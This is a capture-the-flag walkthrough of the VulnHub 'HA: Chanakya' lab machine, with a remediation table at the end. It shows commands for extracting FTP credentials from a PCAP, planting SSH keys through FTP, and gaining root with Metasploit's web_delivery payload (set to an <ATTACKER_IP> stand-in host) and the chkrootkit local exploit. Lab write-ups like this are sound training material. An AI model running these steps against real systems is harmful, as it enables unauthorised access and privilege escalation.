




# HA: Chanakya — Writeup

| | |
|-|-|
| **Target IP** | 192.168.1.101 (host-only) |
| **Difficulty** | Intermediate |
| **OS** | Linux |
| **Root Flag** | /root/final.txt |
| **Source** | [VulnHub](https://www.vulnhub.com/entry/ha-chanakya,395/) |

## Attack Summary

nmap → dirb (abuse.txt ROT13 → ashoka.pcapng) → Wireshark FTP stream (ashoka:kautilya) → SSH key injection via FTP → shell → /tmp/logs (chkrootkit) → MSF web_delivery + local/chkrootkit → root

## Methodology

1. Network discovery and port scan
2. Enumerate hidden text files on port 80
3. Decode ROT13 clue, download and analyse PCAP for FTP credentials
4. SSH in via FTP-uploaded authorized_keys
5. Identify chkrootkit cron via /tmp/logs
6. Exploit chkrootkit via Metasploit → root

---

## Step 1: Network Discovery

```bash
sudo netdiscover -i eth1 -r 192.168.1.0/24
nmap -A 192.168.1.101
```

Open ports: **21** (FTP), **22** (SSH), **80** (HTTP).



---

## Step 2: Find and Decode abuse.txt

```bash
dirb http://192.168.1.101/ -X .txt
wget http://192.168.1.101/abuse.txt
cat abuse.txt
```

The contents are ROT13-encoded. Decode them:

```bash
cat abuse.txt | tr 'A-Za-z' 'N-ZA-Mn-za-m'
# → ashoka.pcapng
```

Download the PCAP file:

```bash
wget http://192.168.1.101/ashoka.pcapng
```

---

## Step 3: Extract FTP Credentials from PCAP

```bash
wireshark ashoka.pcapng
```

Follow the FTP TCP stream. The cleartext credentials appear in the stream:

- Username: **ashoka**
- Password: **kautilya**



---

## Step 4: SSH Key Injection via FTP

Log in to FTP and create the .ssh directory:

```bash
ftp 192.168.1.101
# Username: ashoka  Password: kautilya
mkdir .ssh
cd .ssh
```

Generate a key pair on the attacker:

```bash
ssh-keygen -f /tmp/chanakya_key
cat /tmp/chanakya_key.pub > /tmp/authorized_keys
```

Upload via FTP:

```bash
# back in the ftp session:
put /tmp/authorized_keys
bye
```

SSH in using the private key:

```bash
ssh ashoka@192.168.1.101 -i /tmp/chanakya_key
```


---

## Step 5: Discover chkrootkit Cron

```bash
ls /tmp
cat /tmp/logs
```

The logs file shows output from a periodic **chkrootkit** run, confirming it runs as root via cron.

---

## Step 6: Exploit chkrootkit → Root (Metasploit)

From a Meterpreter session (use `multi/script/web_delivery` to get one first):

```bash
msfconsole -q
use exploit/multi/script/web_delivery
set LHOST <ATTACKER_IP>
exploit
# Run the generated one-liner in the ashoka SSH session
```

Once the session is open:

```bash
use exploit/unix/local/chkrootkit
set SESSION 1
set LPORT 8888
exploit
```

Root shell obtained:

```bash
python -c 'import pty;pty.spawn("/bin/bash")'
id
# uid=0(root)
ls /root
cat /root/final.txt
```





---

## Lessons Learned

1. **ROT13 obfuscation** is trivially reversible — it is not encryption
2. **FTP in cleartext** transmits credentials — analyse traffic from any PCAP for credential extraction
3. **FTP writable .ssh directory** allows SSH key injection without the user's knowledge
4. **chkrootkit** running as root via cron is a well-known local privilege escalation vector (Metasploit module: `exploit/unix/local/chkrootkit`)

## Remediation

| Vulnerability | Fix |
|---------------|-----|
| FTP cleartext credentials | Replace FTP with SFTP; enforce encrypted transport |
| FTP user can write to ~/.ssh | Restrict FTP chroot and file permissions |
| chkrootkit cronjob as root | Update chkrootkit or replace with rkhunter; run as non-root where possible |
| Weak credential obfuscation (ROT13) | Use proper authentication; do not embed credentials in web-accessible files |
